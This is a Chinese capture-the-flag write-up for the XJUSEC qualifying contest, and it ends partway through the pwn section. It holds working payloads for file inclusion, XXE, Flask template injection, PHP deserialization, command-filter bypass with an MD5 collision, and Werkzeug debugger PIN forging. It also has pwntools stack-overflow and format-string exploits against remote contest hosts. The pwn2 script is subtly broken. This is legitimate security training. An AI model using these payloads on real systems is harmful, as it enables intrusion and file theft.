- [XJUSEC_第一次选拔赛](#xjusec_第一次选拔赛)
    - [WEB](#web)
        - [include](#include)
        - [XXE](#xxe)
        - [FLASK1](#flask1)
        - [hashhash](#hashhash)
        - [unserialize](#unserialize)
        - [src_hash](#src_hash)
        - [flask2](#flask2)
    - [MISC](#misc)
        - [翻山_签到](#翻山_签到)
        - [计算MD5_soeasy](#计算md5_soeasy)
        - [gnp](#gnp)
        - [P N G](#p-n-g)
        - [backdoor](#backdoor)
        - [猫猫](#猫猫)
        - [奇怪的编码_easy](#奇怪的编码_easy)
    - [pwn](#pwn)
        - [pwn1](#pwn1)
        - [pwn2](#pwn2)
        - [pwn3](#pwn3)
        - [pwn4](#pwn4)
    - [crypto](#crypto)
        - [truelove](#truelove)
        - [Singer](#singer)
        - [RSA](#rsa)
        - [babyrsa](#babyrsa)
        - [white give](#white-give)
        - [BADRSA](#badrsa)
    - [re](#re)
        - [python还用逆向？](#python还用逆向)
        - [点击狂魔](#点击狂魔)
        - [rush B](#rush-b)
        - [手算狂魔](#手算狂魔)
        - [climb mountain](#climb-mountain)
        - [c语言地址考试](#c语言地址考试)

# XJUSEC_第一次选拔赛

---

## WEB
### include

- 题目源码：
``` php
<?php
    $file = $_GET['file'];
	if (!empty($file)){
        include($file);
    }else{
	    $file = 'index.html';
	    include($file);
	}
?>
```
- 代码审计：`include()`函数存在文件包含漏洞点，可以通过GET方式提交file参数来控制包含的对象。通过题目提供的信息：flag在flag.php里
- 用php伪协议读取flag.php。
- 构造paylaod
```
http://xjusec.club:8811/index.php?file=php://filter/convert.base64-encode/resource=flag.php
```
- 读取flag.php数据，并base64解码
``` 
PD9waHANCgkkZmxhZyA9ICdmbGFne2luY2x1ZDNfczBfZXp9JzsNCj8+DQo8aHRtbD4NCjxoZWFkPg0KCTxtZXRhIGNoYXJzZXQ9IlVURi04Ij4NCgk8dGl0bGU+WEpVU0VDIE9OTElORTwvdGl0bGU+DQoJPHN0eWxlPiANCgkJYm9keXt0ZXh0LWFsaWduOmNlbnRlcn0gDQoJPC9zdHlsZT4NCjwvaGVhZD4NCg0KPGJvZHk+DQoNCjxib2R5Pg0KDQoJPHA+ZmxhZ+WwseWcqOi/memHjO+8jOS9huWwseaYr+eci+S4jeWIsO+8jOWlveawlOWTpu+8gTwvcD4NCg0KPC9ib2R5Pg0KDQoJDQo8L2h0bWw+
```
- base64解码：
``` php


<?php
	$flag = 'flag{includ3_s0_ez}';
?>
<html>
<head>
	<meta charset="UTF-8">
	<title>XJUSEC ONLINE</title>
	<style> 
		body{text-align:center} 
	</style>
</head>

<body>

<body>

	<p>flag就在这里，但就是看不到，好气哦！</p>

</body>

	
</html>
```
- 得到flag：flag{includ3_s0_ez}
- 本题知识点：本地文件包含
- 拓展知识点：远程文件包含

---
### XXE
- 本题的原题是NCTF2019的一个easy题，直接构建payload读取flag
- 测试登陆功能，发现发送的请求包格式为XML格式
``` xml
<user><username>rdd</username><password>rdd</password></user>
```
- 审计登陆页面的js代码,可以猜测存在xxe漏洞

``` js
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```
- 构造paylaod,读取/flag
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "file:///flag" >]>
<user>
	<username>&a;</username>
	<password>a</password>
</user>
```
- 本题知识点：利用XXE漏洞读取本地文件
- 拓展知识点：利用XXE漏洞探测内网

---

### FLASK1

- 题目链接中有?name=rd，页面源码
``` html
Hello rdd<br><hr>By rdd;<br>Python Flask
```
- 可以知道，是name参数控制Hello后跟的内容
- Python的flask框架中存在ssti漏洞，而name就是注入点，通过传入?name={{7*34}}，返回源码：
``` html
Hello 238<br><hr>By rdd;<br>Python Flask
```
- 其中 238 为 7*34=238 的值，则确定存在ssti漏洞
- 构造paylaod1：读目录，查找flag，flag通常在根目录下
``` python
?name=

  
  
    
      {{ b['eval']('__import__("os").popen("ls /").read()') }}
    
  
  


```
- 返回源码
``` html
Hello                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
                                                                                                                                                                                                                                                                                                                                                         <br><hr>By rdd;<br>Python Flask
```
- 可以发现flag在根目录下，但是执行命令，构造paylaod ` 'cat /flag' `时，发现过滤了flag，于是拆分字符串为` 'cat /fl'+'ag' ` 绕过对flag的过滤
- 最终paylaod
``` python


  
  
    
      {{ b['eval']('__import__("os").popen("cat /fl"+"ag").read()') }}
    
  
  


```
- 成功读取到flag
- 本地后台源码：
``` python
from flask import Flask, request,url_for
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')
	if 'flag' in name:
		return "hacker! flag can't in your name"
    t = Template("Hello " + name+"<br><hr>By rdd;<br>Python Flask")
    return t.render()
	


if __name__ == "__main__":
	
    app.run(debug=True)
```
- 本题的其他解法
```
cat /* 通过linux通配符读取根目录下所有的文件
cat /fla* 原理同cat /*

ps : 如果过滤cat ，则可以用tail head more nl 等linux来绕过
```
- 本题知识点：flask的ssti漏洞
- 拓展知识点：其他框架的模板注入漏洞

---

### hashhash
- 根据题目提示
```
Only Admin can see the flag!!
Only True Admin can see the flag!!
```
- 查看页面源码,发现存在hint.php
- hint.php
``` php

function ctt($key)
{
	$t="";
	for($i=0;$i<strlen($key);++$i)
	{
		$t.=chr(ord($key[$i])^$i);
	}
	
	return $t;
}
            $auth = false;
            $role1 = "xxxxxxxxxx";
            $salt = "xxxxxxxxxx";//闀垮害涓嶈秴杩�15
            if (isset($_COOKIE["role_true"])) {
                $hsh = $_COOKIE["hsh"];
                if ($_COOKIE["role_true"] === $role1 && $hsh === md5($salt.urldecode($_COOKIE["role"]))) {
                    $auth = true;
                } else {
                    $auth = false;
                }
            } else {
                $s =$role1;
                setcookie('role',ctt(base64_encode($s)));
				
                $hsh = md5($salt.ctt(base64_encode($s)));
                setcookie('hsh',$hsh);
            }
            if ($auth) {
                echo "<h3>Welcome Admin. Your flag is ";
            } else {
                echo "<h3>Only True Admin can see the flag!!</h3>";
            }
```
- 进行简单的代码审计，写python脚本，构建出出符合要求的cookie和参数
``` python
#url：http://101.200.48.158/web/web6
import requests 
import base64
import urllib.parse

#url = "http://47.93.249.236:10008/"
url= "http://101.200.48.158/web/web6"
req = requests.get(url)
#获取所有cookie值
coo = req.headers['Set-Cookie'].replace(" ","")
print(coo)    


#获取各个cookie值
coolist = coo.split(",")
print(coolist)

#role的值
role = urllib.parse.unquote(coolist[0].split("=")[1])

#hsh的值
hsh = coolist[1].split("=")[1]


#解出php中role1的值
tmp1 = ''
for i in range(int(len(role))):
    tmp1 += chr(ord(role[i])^i)


role_real  = base64.b64decode(tmp1).decode()
print(role_real)


cookies = {
    "role_true":role_real,
    "role":urllib.parse.quote_plus(coolist[0].split("=")[1]),
    "hsh":hsh
    }
print(cookies)

req1 = requests.get(url,cookies=cookies)

print(req1.text)
```

- 本题知识点：简单的代码审计能力和脚本编写能力
- 拓展知识点：进阶的代码审计能力和脚本编写能力

---

### unserialize

- 题目提示备份在www.zip
- 下载源码，发现class.php flag.php 
- 查看index.php，存在反序列化漏洞利用点unserialize，且参数select可控
``` php
//php 代码片段
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```
- 查看class.php，包含了flag.php，存在多个魔法函数
``` php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        //$this->username = 'guest';
		echo 'QAQ';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
- 在本地搭建php环境，并构造利用链
``` php
<?php
include('class.php');
$b=new Name('admin',100);
echo serialize($b);
?>
```
- 这里注意几点：参数的属性是private；` __wakeup() ` 函数并没有什么实际意义，所以不需要绕过。
- 构造payload
``` php
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

- 源码中回显flag

- 本题知识点：初级的反序列化漏洞
- 拓展知识点：更复杂的利用链构造&phar协议+文件上传+反序列化的的利用

---

### src_hash
- 本题取自：i-SOON_CTF_2019
- 题目提示找到源码
- 打开题目后，观察url：
```
http://xjusec.club:8814/index.php?img=TXpVek5UTTFNa1UyUVRjd05qYz0&cmd=
```
- 对img的值进行两次base64解码和一次base16解码：555.jpg
- 于是猜想用img读取页面源码
- 构造url
```
http://xjusec.club:8814/index.php?img=TmprMlJUWTBOalUzT0RKRk56QTJPRGN3&cmd=
```
- 源码中回显数据

``` 
data:image/gif;base64,PD9waHAKZXJyb3JfcmVwb3J0aW5nKEVfQUxMIHx8IH4gRV9OT1RJQ0UpOwpoZWFkZXIoJ2NvbnRlbnQtdHlwZTp0ZXh0L2h0bWw7Y2hhcnNldD11dGYtOCcpOwokY21kID0gJF9HRVRbJ2NtZCddOwppZiAoIWlzc2V0KCRfR0VUWydpbWcnXSkgfHwgIWlzc2V0KCRfR0VUWydjbWQnXSkpIAogICAgaGVhZGVyKCdSZWZyZXNoOjA7dXJsPS4vaW5kZXgucGhwP2ltZz1UWHBWZWs1VVRURk5hMVV5VVZSamQwNXFZejAmY21kPScpOwokZmlsZSA9IGhleDJiaW4oYmFzZTY0X2RlY29kZShiYXNlNjRfZGVjb2RlKCRfR0VUWydpbWcnXSkpKTsKCiRmaWxlID0gcHJlZ19yZXBsYWNlKCIvW15hLXpBLVowLTkuXSsvIiwgIiIsICRmaWxlKTsKaWYgKHByZWdfbWF0Y2goIi9mbGFnL2kiLCAkZmlsZSkpIHsKICAgIGVjaG8gJzxpbWcgc3JjID0iLi9jdGYzLmpwZyI+JzsKICAgIGRpZSgieGl4ae+9niBubyBmbGFnIik7Cn0gZWxzZSB7CiAgICAkdHh0ID0gYmFzZTY0X2VuY29kZShmaWxlX2dldF9jb250ZW50cygkZmlsZSkpOwogICAgZWNobyAiPGltZyBzcmM9J2RhdGE6aW1hZ2UvZ2lmO2Jhc2U2NCwiIC4gJHR4dCAuICInPjwvaW1nPiI7CiAgICBlY2hvICI8YnI+IjsKfQplY2hvICRjbWQ7CmVjaG8gIjxicj4iOwppZiAocHJlZ19tYXRjaCgiL2xzfGJhc2h8dGFjfG5sfG1vcmV8bGVzc3xoZWFkfHdnZXR8dGFpbHx2aXxjYXR8b2R8Z3JlcHxzZWR8Ynptb3JlfGJ6bGVzc3xwY3JlfHBhc3RlfGRpZmZ8ZmlsZXxlY2hvfHNofFwnfFwifFxgfDt8LHxcKnxcP3xcXHxcXFxcfFxufFx0fFxyfFx4QTB8XHt8XH18XCh8XCl8XCZbXlxkXXxAfFx8fFxcJHxcW3xcXXx7fH18XCh8XCl8LXw8fD4vaSIsICRjbWQpKSB7CiAgICBlY2hvKCJmb3JiaWQgfiIpOwogICAgZWNobyAiPGJyPiI7Cn0gZWxzZSB7CiAgICBpZiAoKHN0cmluZykkX1BPU1RbJ2EnXSAhPT0gKHN0cmluZykkX1BPU1RbJ2InXSAmJiBtZDUoJF9QT1NUWydhJ10pID09PSBtZDUoJF9QT1NUWydiJ10pKSB7CiAgICAgICAgZWNobyBgJGNtZGA7CiAgICB9IGVsc2UgewogICAgICAgIGVjaG8gKCJtZDUgaXMgZnVubnkgfiIpOwogICAgfQp9Cgo/Pgo8aHRtbD4KPHN0eWxlPgogIGJvZHl7CiAgIGJhY2tncm91bmQ6dXJsKC4vYmoucG5nKSAgbm8tcmVwZWF0IGNlbnRlciBjZW50ZXI7CiAgIGJhY2tncm91bmQtc2l6ZTpjb3ZlcjsKICAgYmFja2dyb3VuZC1hdHRhY2htZW50OmZpeGVkOwogICBiYWNrZ3JvdW5kLWNvbG9yOiNDQ0NDQ0M7Cn0KPC9zdHlsZT4KPGJvZHk+CjwvYm9keT4KPC9odG1sPg==
```
- 对数据进行base64解码,得到index.php的源码
``` php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNa1UyUVRjd05qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```
- 代码审计之后，获得如下信息：
    - ` echo `$cmd `;` cmd 可以执行命令，但是过滤了大量命令
    - ` if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))  ` POST a和b ，a和b不能相等，但是他们的md5值要相等。且` string() `函数对a和b进行了处理，md5值的比较使用 ` === ` 不能使用传入数组绕过
- 绕过：
    - cmd 绕过思路，预期：ca\t /fla\g，非预期：没有禁用cp命令，可以把flag复制到web目录下，然后直接访问
    - md5值比较的绕过思路，这里用到了md5值碰撞
- 构建paylaod
```
GET:cmd=ca\t /fla\g
POST:a=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%16%B4%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%DC%9F%95ab%D2%09P%A1%5D%12%3B%1ETZ%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29%EF%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%1E%7Ch%B0%96%A7%E5U%EBn1q%CA%D0%8B%C7%1BSP
b=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%164%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%5C%A0%95ab%D2%09P%A1%5D%12%3B%1ET%DA%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29o%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%9E%7Bh%B0%96%A7%E5U%EBn1q%CA%D0%0B%C7%1BSP
```
- payload 不唯一

- 本题知识点：linux shell bypass 和 md5 碰撞
- 拓展知识点：过滤更严格的bypass

---

### flask2

- 本题灵感来源NCTF2019，难度降低了许多，主要考点是flask PIN码安全
- PIN码安全链接 https://xz.aliyun.com/t/2553
- 题目中提供了一个查看文件的输入框和一个链接，可以查看任意文件，但是不能带有flag，链接访问后是一个典型的debug页面，输入PIN码就能执行python的代码，从而可以执行命令或读取文件等操作。
- 题目提示找到源码，于是尝试读取服务器后台文件，flask框架中常见的入口文件为app.py等，读取app.py
``` python

from flask import Flask, request,render_template,redirect

#hint2 : username ctf ; modname flask.cli ;  getattr(app, '__name__', getattr(app.__class__, '__name__')) DispatchingApp ;
#getattr(mod, '__file__', None) /usr/local/lib/python3.6/site-packages/flask/cli.py
#pin 码产生文件：/usr/local/lib/python3.6/site-packages/werkzeug/debug/__init__.py
app = Flask(__name__)

@app.route("/",methods=['GET','POST'])
def index():
	file = request.args.get('file')
	if file:
		try :
			data = open(file).read()
		except:
			data = "G0 out h4ck!!To0 young to0 nav1!!!"
		return data
	else:
		return render_template('index.html')
@app.route("/hack")
def hack():
	goouthacker()
	return  "my wifi mayumi!"

if __name__ == "__main__":
    app.run()
```
- 由于本题降低了好多难度，所以在app.py中给出了一些提示
```
#hint2 : 
username ctf ; 
modname flask.cli ;  
getattr(app, '__name__', getattr(app.__class__, '__name__')) DispatchingApp ;
#getattr(mod, '__file__', None) /usr/local/lib/python3.6/site-packages/flask/cli.py
#pin 码产生文件：
/usr/local/lib/python3.6/site-packages/werkzeug/debug/__init__.py

app = Flask(__name__)
```
- 通过查找资料，flask的PIN码安全，我们可以找到通过以下参数构造PIN码的脚本；或是自己审计flask框架的源码，编写脚本。
- 需要的参数
```
username
modname
getattr(app, '__name__', getattr(app.__class__, '__name__'))
getattr(mod, '__file__', None)
uuid.getnode()
get_machine_id()
```
- 其中，前四个参数已经在app.py中给出，我们只需要获取最后两个参数的值
- uuid.getnode() 通过读取文件：
    - /sys/class/net/eth0/address （docker容器下）
    - /sys/class/net/ens33/address （普通linux系统）
    - 得到的文件如果是mac地址形式，则转换为16进制
- get_machine_id() 通过读取文件：
    - /etc/machin-id 
    - /proc/self/cgroup
-构建脚本
``` python
import hashlib
from itertools import chain
probably_public_bits = [
	'ctf',# 	
	'flask.cli',# modname
	'DispatchingApp',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.6/site-packages/flask/cli.py' # getattr(mod, '__file__', None),
]

private_bits = [
	# str(uuid.getnode()),  /sys/class/net/ens33/address  /sys/class/net/eth0/address
    #02:42:ac:16:00:02
	'2485377892359',
	# get_machine_id(), /etc/machin-id /proc/self/cgroup 6afeacdf-afcf-4552-8502-719172374dda
	'2ccf99add631aa0e4f8634e1eabc4c5b'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print(rv)
```
- 得到PIN码后，在debug界面输入PIN码后getflag
``` python
import os  #导入os库
os.listdir('/') # 查看根目录下所有文件
open('/fl4444444g_1s_h3r3_come_on','r').read() #获取flag
```

---

## MISC

---

### 翻山_签到
    
- 略

---

### 计算MD5_soeasy
    
- 题目：flag:flag{upper(md5(pic))}
- 可以知道 flag 为 图片的大写MD5值

---

### gnp

- 查看16进制值发现是一个png图片的逆置
- 编写脚本
``` python
f1 = open('en','r')
f2 = open('de','a')
datas =  f1.read()
for i in range(int(len(datas)/2)):

	
	data = datas[len(datas)-i*2-2:len(datas)-i*2]
	f2.write(data)
```
- 得到的数据16进制的当时写入文件
---

### P N G

- 本题的前导题目为 gnp和计算MD5
- 下载图片后，发现是8950....开头的多张图片
- 猜测是一个png图片，需要进行拼接
- 利用图片的md5校验和的特性，16进制一共6个字符和10个数字构成，构造hash表
``` python
dict = {
'7257530d5479c92f0f470f7373109298':'0',
'b3b71ac4d6ee50b353538fb522ceecff':'1',
'e3dc96825cf9cfd2e05a2705a842dee8':'2',
'bc5819562ca2b44aaa7f8e4feff8625c':'3',
'8ac95963b60d34061c809dc564885d12':'4',
'c04aeb6aa9f83ac0f8a69ffbdcb7eef1':'5',
'38ee200c781fcd9085adc216dfb838c4':'6',
'33845719008bc48363804e45c094e170':'7',
'3ec6fdde3a26c3c4f24b7839757ff00a':'8',
'cb7bb74641cf38cf9310595e25ea395a':'9',
'4a82145ab0bc07936b03a8225df3d76c':'A',
'42da6867ef8cb8a283c6f74910427e7d':'B',
'2967b18b5ac89232b145645e4141fd8f':'C',
'69780c736f64c2823087e55459758180':'D',
'f9c31b8653eb385004185a30a639d895':'E',
'2775db88988813a59ca2b04dc7907131':'F'
}
```
- 对全部图片进行遍历，图片映射为字符，编写脚本
``` python
import hashlib
import os
filePath = './all'
data =  ''
dict = {
'7257530d5479c92f0f470f7373109298':'0',
'b3b71ac4d6ee50b353538fb522ceecff':'1',
'e3dc96825cf9cfd2e05a2705a842dee8':'2',
'bc5819562ca2b44aaa7f8e4feff8625c':'3',
'8ac95963b60d34061c809dc564885d12':'4',
'c04aeb6aa9f83ac0f8a69ffbdcb7eef1':'5',
'38ee200c781fcd9085adc216dfb838c4':'6',
'33845719008bc48363804e45c094e170':'7',
'3ec6fdde3a26c3c4f24b7839757ff00a':'8',
'cb7bb74641cf38cf9310595e25ea395a':'9',
'7257530d5479c92f0f470f7373109298':'0',
'4a82145ab0bc07936b03a8225df3d76c':'A',
'42da6867ef8cb8a283c6f74910427e7d':'B',
'2967b18b5ac89232b145645e4141fd8f':'C',
'69780c736f64c2823087e55459758180':'D',
'f9c31b8653eb385004185a30a639d895':'E',
'2775db88988813a59ca2b04dc7907131':'F'
}

print(len(os.listdir(filePath)))

for i in range(int(len(os.listdir(filePath)))):
	h = hashlib.md5(open('./all/{}.png'.format(i),'rb').read()).hexdigest()
	data = data + dict[h]
print(data)
open('tmp.txt','w').write(data)
```
- 结果存放在了tmp.txt中，以16进制写入文件，可以还原图片，获得flag

---

### backdoor

- 后门查杀，下载D盾，查杀过后发现木马密码位置
- 加上flag{} 提交即可

---

### 猫猫

- 盲水印注入
- Github找到脚本，运行脚本即可，得出一个模糊的图片，仔细辨认即可

----

### 奇怪的编码_easy

- 用python的base64库的b85encode进行的编码
- 解码调用相关方法即可
``` python
import base64

print(base64.b85decode('W^7?+dt_x}Z)9a(Wo~0{WMyA=Wpa66W_50T'))

```

---

## pwn

---

### pwn1




- 主函数我们可以看到当` <dword_6010C0 != 1717986918> `
会执行以下函数





- 而当` <dword_6010C0 == 1717986918 ` 时





- 会执行` </bin/sh> `

- 在主函数中我们找到read函数读入





- 而`<dword_6010C0>`在bss段




- pwndbg来checksec一下




- 只有nx 

- 利用思路：栈溢出覆盖返回地址为`<dword_6010C0>`,写入值为` 1717986918 `

``` python
p = remote("101.200.48.158" ,10004)

#p = process("./imgs/pwn1")

p.recvuntil('are you ready?\n')

payload = "yes"+"\x00"*(0x10-3)+p64(1717986918)

p.sendline(payload)

p.interactive()
```

---

### pwn2

- 本题考察格式化字符串









- 存在两处格式化字符串漏洞

- 第一个printf可以用来leak buf的地址，前十六个字节会被src覆盖，所以需要先填充16个字节

- src与dword_200E0的偏移为0x60个字节，如有需要可以在IDA中进行查看
  
- 第二个printf可以用来对buf进行写入

``` python
r = remote("101.200.48.158",10005)
#r = process('./imgs/pwn_me_2')

#填充src，并获取src的地址
payload1 = 'a'*16 + '%llx'
r.sendline(payload1)
r.recvuntil('preparing......\n')
# src 与 dword_2020E0 的偏移为 0x60
dword_2020E0_addr  = int(r.recv(12), 16) + 0x60

'''
备注：
  1. 写入的值 = 输出的字节数
  2. '%??c'表示输出??个空格
  3. '??$'表示栈中第??个成员
  4. '$hn'表示写入的宽度为2个字节
  5. 一次性写入4字节宽度的话需要一次性输出0x66666666个字符，数量太多，会导致printf函数崩溃
'''
r.recvuntil('what do you want?\n')
#向dword_2020E0_addr写入0x6666
#向dword_2020E0_addr+2写入0x6666
payload='%'+str(0x6666)+'d%10$hn%11$hn'

payload=payload.ljust(0x20,'\x00')
#dword_2020E0_addr  的地址在栈中的第11个成员
payload2 += p64(dword_2020E0_addr)
#dword_2020E0_addr+2的地址在栈中的第12个成员
payload2 += p64(dword_2020E0_addr+2)

r.sendline(payload2)
r.interactive()
```

---

### pwn3

- 基础的栈溢出

```python

from pwn import *

#p = remote("139.129.76.65" ,50004)
p = process("/media/sf_pwn题/pwn_me_1")

p.recvuntil('A simple shellcode for U, have fun!\n')

payload = "a"*0x38+p64(0x400A3e)

p.sendline(payload)

p.interactive()

```

---
